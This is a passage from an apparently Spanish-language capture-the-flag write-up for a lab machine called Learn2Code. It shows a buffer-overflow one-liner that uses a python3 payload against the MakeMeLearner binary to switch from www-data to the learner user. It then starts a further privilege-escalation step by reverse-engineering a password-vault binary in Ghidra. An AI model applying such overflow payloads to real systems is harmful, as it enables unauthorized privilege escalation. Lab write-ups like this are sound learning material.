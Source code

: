 Para que el valor del `input` valga `dcba` tenemos que crear un `Segmentation Fault` para luego añadirle al final la cadena **`dcba`**, vamos a verlo:

```sh
www-data@Learn2Code:/$ /usr/bin/MakeMeLearner `python3 -c 'print("dcba"*20)'`
learner@Learn2Code:/$
```

¡Perfecto! Ya estamos como **Learner** en la máquina.

### Subida de privilegios #2
Este paso será algo más fácil de entender que el anterior, comencemos por ver qué hay en nuestro directorio personal:

```sh
learner@Learn2Code:/home/learner$ ls -la
total 44
dr-x------ 2 learner learner  4096 Sep 28  2020 .
drwxr-xr-x 3 root    root     4096 Sep 28  2020 ..
lrwxrwxrwx 1 root    root        9 Sep 28  2020 .bash_history -> /dev/null
-rw-r--r-- 1 learner learner   220 Sep 28  2020 .bash_logout
-rw-r--r-- 1 learner learner  3526 Sep 28  2020 .bashrc
-rw-r--r-- 1 learner learner   807 Sep 28  2020 .profile
-r-x------ 1 learner learner 16608 Sep 28  2020 MySecretPasswordVault
-r-------- 1 learner learner    14 Sep 28  2020 user.txt
```

Vemos un binario llamado `MySecretPasswordVault`, llevémoslo a nuestra máquina.

De nuevo, vamos a ver el código con **GHidra**, pero esta vez lo que nos importa es buscar algo semejante a una contraseña, ya que el código sin más no es relevante.

Tras un rato buscando nos encontramos con lo siguiente:

![passwd-ghidra](/assets/img/imgs/learn2code/passwd-ghidra.png)
